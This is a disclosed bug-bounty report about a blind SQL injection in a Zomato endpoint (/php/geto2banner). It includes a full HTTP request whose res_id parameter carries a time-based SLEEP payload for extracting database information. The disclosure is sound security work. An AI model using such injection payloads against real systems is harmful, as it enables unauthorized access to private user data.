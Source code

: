 # [www.zomato.com] Blind SQL Injection in /php/geto2banner

## Report Details
- **Report ID**: 838855
- **URL**: https://hackerone.com/reports/838855
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2020-04-04T14:15:36.412Z
- **Disclosed**: 2020-08-10T13:27:02.782Z

## Reporter
- **Username**: zzzhacker13
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: zomato

## Vulnerability Information
## Hi Team!

Our team discovered a ``Blind SQL Injection`` by Abusing LocalParams (`res_id`) in `/php/geto2banner`
**We are working to create a full PDF Report as an WriteUp ;)**

## Here is a Temporal Exploit based on the Vulnerable request:

```
POST /php/geto2banner HTTP/1.1
Host: www.zomato.com
Connection: close
Content-Length: 73
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36
Content-type: application/x-www-form-urlencoded
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: en

res_id=51-CASE/**/WHEN(LENGTH(version())=10)THEN(SLEEP(6*1))END&city_id=0
```

Thank you so much!!

- As you can see in the request - we are able to **Exploit** it to **extract data from your DB**!

## Impact

## Full database access holding private user information.

## Attachments
No attachments
